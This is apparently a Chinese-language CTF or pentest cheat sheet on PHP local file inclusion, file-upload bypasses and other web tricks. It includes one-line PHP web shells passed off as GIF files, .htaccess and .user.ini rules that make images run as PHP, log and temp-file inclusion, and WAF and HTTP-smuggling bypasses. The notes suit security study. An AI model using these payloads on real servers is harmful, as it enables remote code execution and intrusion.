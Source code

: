 ## LFI

### 直接上传

- exif_imagetype：GIF89a图片马

- ```php
  <script language='pHp'>@eval($_REQUEST['cmd']);</script>
  <?= eval($_POST['cmd']);?> // 开启短标签
  ```

- mime.types花式后缀

- %00截断

### `/proc/self/environ`包含

修改UserAgent可将代码插入

### 日志文件包含

### 临时文件包含(`session`,`tmp`等)

结合phpinfo:查看临时文件路径,条件竞争

[PHP Local File Inclusion RCE with PHPINFO](https://github.com/vulhub/vulhub/tree/master/php/inclusion)

### fastcgi/apache 文件上传->.user.ini/.htaccess

> .user.ini: auto_prepend_file=xxx // 要求上传文件目录下存在php
>
> .htaccess:
>
> AddType application/x-httpd-php .jpg // jpg自动解析为php

htaccess中\可以作连接符绕过过滤

## 杂项

### 条件竞争

对权限检查不严格的身份认证相关变量操作，可能引发条件竞争

### TPP污染

结合php参数名花式解析->绕WAF

### HTTP走私

nodejs8-存在unicode绕过

```python
.replace('\n', '\r\n')
.replace('\r\n', '\u010d\u010a')
%xx->\u01xx
```
